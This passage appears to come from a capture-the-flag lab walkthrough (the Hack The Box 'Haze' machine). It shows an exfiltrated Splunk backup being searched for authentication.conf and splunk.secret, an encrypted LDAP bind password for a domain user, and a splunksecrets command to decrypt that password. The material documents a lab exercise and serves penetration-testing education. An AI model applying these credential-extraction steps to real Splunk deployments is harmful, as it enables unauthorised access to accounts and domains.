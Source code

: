 We transfer the `.zip` file to our attack host, extract it, and examine its contents:

```
kali@kali:~$ ls -la
total 3588
drwxrwxr-x 12 kali kali    4096 Aug  6  2024 .
drwxrwxr-x  3 kali kali    4096 Jun 26 12:29 ..
drwxrwxr-x  3 kali kali   12288 Aug  6  2024 bin
drwxrwxr-x  2 kali kali    4096 Aug  6  2024 cmake
-rw-rw-r--  1 kali kali      58 Mar 21  2024 copyright.txt
drwxrwxr-x 17 kali kali    4096 Aug  6  2024 etc
drwxrwxr-x  5 kali kali    4096 Aug  6  2024 lib
-rw-rw-r--  1 kali kali  332846 Mar 21  2024 license-eula.rtf
-rw-rw-r--  1 kali kali   86819 Mar 21  2024 license-eula.txt
-rw-rw-r--  1 kali kali   10835 Mar 21  2024 openssl.cnf
drwxrwxr-x  3 kali kali    4096 Aug  6  2024 opt
drwxrwxr-x  3 kali kali    4096 Aug  6  2024 Python-3.7
drwxrwxr-x  3 kali kali    4096 Aug  6  2024 quarantined_files
-rw-rw-r--  1 kali kali     532 Mar 21  2024 README-splunk.txt
drwxrwxr-x  4 kali kali    4096 Aug  6  2024 share
-rw-rw-r--  1 kali kali 3166946 Mar 21  2024 splunk-9.2.1-78803f08aabb-windows-64-manifest
drwxrwxr-x  2 kali kali    4096 Aug  6  2024 swidtag
drwxrwxr-x  7 kali kali    4096 Aug  6  2024 var
kali@kali:~$
```

### Splunk Password Decryption

After searching through the backup, we locate the `authentication.conf` file inside a snapshot, while the `splunk.secret` file is in its usual location:

```
kali@kali:~$ find . -name authentication.conf
./etc/system/default/authentication.conf
./var/run/splunk/confsnapshot/baseline_default/system/default/authentication.conf
./var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf
kali@kali:~$ find . -name splunk.secret
./etc/auth/splunk.secret
```

Checking the contents of the `authentication.conf` file, we find the encrypted Splunk password for the `alexander.green` user:

```
...
bindDN = CN=alexander.green,CN=Users,DC=haze,DC=htb
bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
...
```

We use the `splunksecrets` tool and decrypt the password as we did previously:

```bash
splunksecrets splunk-decrypt \
-S ./etc/auth/splunk.secret \
--ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
```
